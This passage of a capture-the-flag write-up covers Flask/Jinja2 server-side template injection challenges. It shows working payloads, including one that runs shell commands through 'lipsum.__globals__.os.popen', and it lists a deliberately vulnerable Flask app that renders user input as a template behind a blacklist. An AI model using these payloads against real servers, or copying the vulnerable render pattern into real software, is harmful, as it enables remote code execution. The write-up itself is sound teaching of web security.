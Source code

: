 [![Listing Files](/assets/ICTF-2022/sstig1.png)](/assets/ICTF-2022/sstig1.png)
<figcaption align=center><b>Figure 7.1: Using SSTI to Print the File Names</b></figcaption>
&nbsp;

Well, turns out the file really was arbitrarily named. But that file name is really
long. Luckily, I learned another thing from the blog about short payloads. Turns out
we can use request arguments or set custom application configuration items to
substitute in long strings.

>\{\{config.update(y=request.args.a)\}\}&a=cat%20truly_an_arbitrarily_named_file

Now, I just needed to substitute this into the old payload and see the result.

>\{\{lipsum.\_\_globals\_\_.os.popen(config.y).read()\}\}

[![Flag get!](/assets/ICTF-2022/sstig2.png)](/assets/ICTF-2022/sstig2.png)
<figcaption align=center><b>Figure 7.2: Using SSTI to Print Out the Flag</b></figcaption>
&nbsp;

And just like that, the flag is printed out and the challenge is complete.

>ictf{F!1+3r5s!?}

&nbsp;

### **minigolf**

>Too much Flask last year... let's bring it back again.
>
>Created By: Eth007

This challenge feels like a follow-up to SSTI Golf. We are given another scenario
where we have to have to read a flag using SSTI with a really small payload.
However, this time we also have a blacklist to worry about.

```python
from flask import Flask, render_template_string, request, Response
import html

app = Flask(__name__)

blacklist = ["{{", "}}", "[", "]", "_"]

@app.route('/', methods=['GET'])
def home():
  print(request.args)
  if "txt" in request.args.keys():
    txt = html.escape(request.args["txt"])
    if any([n in txt for n in blacklist]):
      return "Not allowed."
    if len(txt) <= 69:
      return render_template_string(txt)
    else:
      return "Too long."
  return Response(open(__file__).read(), mimetype='text/plain')
```